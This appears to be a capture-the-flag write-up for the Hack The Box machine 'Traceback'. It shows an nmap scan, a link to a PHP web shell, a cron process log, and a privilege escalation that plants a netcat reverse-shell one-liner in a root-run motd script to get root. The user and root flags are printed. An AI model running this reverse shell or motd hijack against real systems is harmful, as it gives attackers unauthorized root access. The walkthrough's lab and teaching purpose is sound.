

# Traceback

> OS: Linux Difficulty: Easy Points: 20 Release: 14 Mar 2020 IP: 10.10.10.181

## Port Scanning

```
t0thkr1s@kali ~> nmap -A -Pn -p- 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-15 00:37 CDT
Nmap scan report for 10.10.10.181
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

WebShell Link: https://github.com/Xh4H/Web-Shells/blob/master/smevk.php



## Running Processes

```
2020/03/14 23:57:18 CMD: UID=0    PID=1      | /sbin/init noprompt 
2020/03/14 23:57:31 CMD: UID=0    PID=20583  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/                                                                                                                                 
2020/03/14 23:58:01 CMD: UID=0    PID=20592  | sleep 30 
2020/03/14 23:58:01 CMD: UID=0    PID=20590  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/14 23:58:01 CMD: UID=???  PID=20588  | ???
2020/03/14 23:58:01 CMD: UID=0    PID=20587  | /usr/sbin/CRON -f 
2020/03/14 23:58:31 CMD: UID=0    PID=20593  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/                                                                                                                                 
2020/03/14 23:59:01 CMD: UID=0    PID=20601  | sleep 30 
2020/03/14 23:59:01 CMD: UID=0    PID=20600  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/14 23:59:01 CMD: UID=0    PID=20599  | /usr/sbin/CRON -f 
2020/03/14 23:59:01 CMD: UID=0    PID=20598  | /usr/sbin/CRON -f 
2020/03/14 23:59:31 CMD: UID=???  PID=20608  | ???
2020/03/15 00:00:01 CMD: UID=???  PID=20618  | ???
2020/03/15 00:00:01 CMD: UID=0    PID=20617  | sleep 30 
2020/03/15 00:00:01 CMD: UID=0    PID=20616  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 00:00:01 CMD: UID=???  PID=20615  | 
2020/03/15 00:00:01 CMD: UID=0    PID=20614  | /usr/sbin/CRON -f 
2020/03/15 00:00:31 CMD: UID=0    PID=20623  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/                                                                                                                                 
2020/03/15 00:01:01 CMD: UID=0    PID=20630  | 
2020/03/15 00:01:01 CMD: UID=0    PID=20629  | sleep 30 
2020/03/15 00:01:01 CMD: UID=0    PID=20627  | 
2020/03/15 00:01:01 CMD: UID=0    PID=20626  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 00:01:01 CMD: UID=0    PID=20625  | /usr/sbin/CRON -f 
2020/03/15 00:01:01 CMD: UID=0    PID=20624  | /usr/sbin/CRON -f 
2020/03/15 00:01:25 CMD: UID=1001 PID=20631  | sudo -l 
2020/03/15 00:01:31 CMD: UID=0    PID=20632  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```

> User Flag: c24349701ae38c33ffbf0cceb2c46020

## Privilege Escalation

```
sysadmin@traceback:/etc/update-motd.d$ cat 00-header
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.2 9898 >/tmp/f
```

```
t0thkr1s : ~/Downloads/traceback
≫ ncat -lvp 9898
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9898
Ncat: Listening on 0.0.0.0:9898
Ncat: Connection from 10.10.10.181.
Ncat: Connection from 10.10.10.181:45770.
bash: cannot set terminal process group (51558): Inappropriate ioctl for device
bash: no job control in this shell
root@traceback:/# id
uid=0(root) gid=0(root) groups=0(root)
root@traceback:/# cd /root
root@traceback:/root# ls -la
total 40
drwx------  5 root root 4096 Aug 25  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rw-------  1 root root   67 Jan 24 05:49 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Aug 24  2019 .cache
drwxr-xr-x  3 root root 4096 Aug 24  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Aug 25  2019 .selected_editor
drwxr-xr-x  2 root root 4096 Aug 24  2019 .ssh
-r--------  1 root root   33 Aug 25  2019 root.txt
root@traceback:/root# cat root.txt
ccda9e554daa04f6f56d822a357585d6
root@traceback:/root#
```

> Root Flag: ccda9e554daa04f6f56d822a357585d6
